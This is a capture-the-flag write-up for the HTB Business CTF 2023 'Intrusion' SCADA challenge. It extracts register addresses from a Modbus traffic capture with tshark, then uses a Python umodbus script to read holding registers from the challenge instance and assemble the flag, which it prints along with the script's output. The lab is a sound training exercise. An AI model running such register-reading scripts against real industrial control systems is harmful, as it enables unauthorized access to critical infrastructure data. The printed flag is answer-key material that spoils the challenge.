

# Intrusion (Scada Challenge)
HTB Business CTF 2023
Writeup by: @godylockz

## Challenge Description
Name: Intrusion
Category: Scada
Difficulty: Easy
Points: 1000
After gaining access to the enemy's infrastructure, we collected crucial network traffic data from their Modbus network. Our primary objective is to swiftly identify the specific registers containing highly sensitive information and extract that data.

## Challenge Files
network_logs.pcapng
```sh
$ file network_logs.pcapng
network_logs.pcapng: pcapng capture file - version 1.0
```

client.py
```text
#!/usr/bin/python3

import socket
from time import sleep
from umodbus import conf
from umodbus.client import tcp

# Adjust modbus configuration
conf.SIGNED_VALUES = True

# Create a socket connection
sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM) 
sock.connect(('127.0.0.1', 502)) # CHANGE THE IP & PORT to the dockers instance

# write your umodbus command here
# command = 

# Send your message to the network
tcp.send_message(command, sock)

# Use sleep between messages 
time.sleep(1)

# Close the connection
sock.close()
```


## Strategy
This was a follow on from the Watch Tower challenge, using the reference numbers was key! You use the reference numbers to access all the holding registers (sorted) to obtain the flag. The unit identifier of `52` is also shown in the Modbus/TCP in the data of the packet.



The following python code was used to automate the solving of this challenge and sending Modbus commands. After reading all the specific holding registers in order, we read the specific holding registers for the flag!

## Python Solution Code
```python
#!/usr/bin/python3

# Imports
from cmd import Cmd
import socket
from umodbus import conf
from umodbus.client import tcp
from time import sleep
import subprocess
from sys import exit

# Adjust modbus configuration
conf.SIGNED_VALUES = True

# Verbose output
VERBOSE = False

# Change to the dockers instance
DOCKER_IP = "94.237.62.254"
DOCKER_PORT = 35809

SLAVE_ID = 52  # unit_id

# from reference numbers in PCAP capture
cmd_output = subprocess.check_output(
    "tshark -r network_logs.pcapng -Y 'modbus.func_code == 16'  -T fields -e 'modbus.reference_num'", shell=True, encoding="utf-8")
ADDR_REGISTERS = [int(i) for i in cmd_output.split()]
ADDR_REGISTERS.sort()


def read_holding_registers(sock, unit_id, address):
    """Read holding registers.
    Return ADU for Modbus function code 03: Read Holding Registers.
    Holding registers are the most universal 16-bit register, may be read or written, and may be used for a variety of things including inputs, outputs, configuration data, or any requirement for "holding" data.
    """
    quantity = 1  # Number of registers to read
    if VERBOSE:
        print(
        f"[*](unit: {unit_id}, addr: {address}) Attempting to read holding registers ...")
    request = tcp.read_holding_registers(
        slave_id=unit_id, starting_address=address, quantity=quantity)
    response = tcp.send_message(request, sock)
    coil_ascii = "".join(chr(integer) for integer in response)
    print(
        f"[+](unit: {unit_id}, addr: {address}) Holding Registers - {response} | {coil_ascii}")
    return coil_ascii


# Connect to modbus
sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect((DOCKER_IP, DOCKER_PORT))

# Loop through all addresses and send the modbus request
out = ""
for address in ADDR_REGISTERS:
    out += read_holding_registers(sock, SLAVE_ID, address)
    sleep(0.1)
print(out)
exit()
```

```sh
$ python3 intrusion-sol.py
[+](unit: 52, addr: 6) Holding Registers - [72] | H
[+](unit: 52, addr: 10) Holding Registers - [84] | T
[+](unit: 52, addr: 12) Holding Registers - [66] | B
[+](unit: 52, addr: 21) Holding Registers - [123] | {
[+](unit: 52, addr: 22) Holding Registers - [50] | 2
[+](unit: 52, addr: 26) Holding Registers - [51] | 3
[+](unit: 52, addr: 47) Holding Registers - [57] | 9
[+](unit: 52, addr: 53) Holding Registers - [49] | 1
[+](unit: 52, addr: 63) Holding Registers - [53] | 5
[+](unit: 52, addr: 77) Holding Registers - [55] | 7
[+](unit: 52, addr: 83) Holding Registers - [51] | 3
[+](unit: 52, addr: 86) Holding Registers - [50] | 2
[+](unit: 52, addr: 89) Holding Registers - [53] | 5
[+](unit: 52, addr: 95) Holding Registers - [95] | _
[+](unit: 52, addr: 96) Holding Registers - [109] | m
[+](unit: 52, addr: 104) Holding Registers - [49] | 1
[+](unit: 52, addr: 123) Holding Registers - [57] | 9
[+](unit: 52, addr: 128) Holding Registers - [104] | h
[+](unit: 52, addr: 131) Holding Registers - [55] | 7
[+](unit: 52, addr: 134) Holding Registers - [95] | _
[+](unit: 52, addr: 139) Holding Registers - [104] | h
[+](unit: 52, addr: 143) Holding Registers - [49] | 1
[+](unit: 52, addr: 144) Holding Registers - [100] | d
[+](unit: 52, addr: 145) Holding Registers - [100] | d
[+](unit: 52, addr: 153) Holding Registers - [51] | 3
[+](unit: 52, addr: 163) Holding Registers - [95] | _
[+](unit: 52, addr: 168) Holding Registers - [53] | 5
[+](unit: 52, addr: 173) Holding Registers - [51] | 3
[+](unit: 52, addr: 179) Holding Registers - [99] | c
[+](unit: 52, addr: 193) Holding Registers - [50] | 2
[+](unit: 52, addr: 206) Holding Registers - [51] | 3
[+](unit: 52, addr: 210) Holding Registers - [55] | 7
[+](unit: 52, addr: 214) Holding Registers - [53] | 5
[+](unit: 52, addr: 215) Holding Registers - [33] | !
[+](unit: 52, addr: 219) Holding Registers - [64] | @
[+](unit: 52, addr: 221) Holding Registers - [36] | $
[+](unit: 52, addr: 224) Holding Registers - [50] | 2
[+](unit: 52, addr: 225) Holding Registers - [54] | 6
[+](unit: 52, addr: 226) Holding Registers - [48] | 0
[+](unit: 52, addr: 231) Holding Registers - [57] | 9
[+](unit: 52, addr: 239) Holding Registers - [94] | ^
[+](unit: 52, addr: 253) Holding Registers - [125] | }
HTB{239157325_m19h7_h1dd3_53c2375!@$2609^}
```

Flag: `HTB{239157325_m19h7_h1dd3_53c2375!@$2609^}`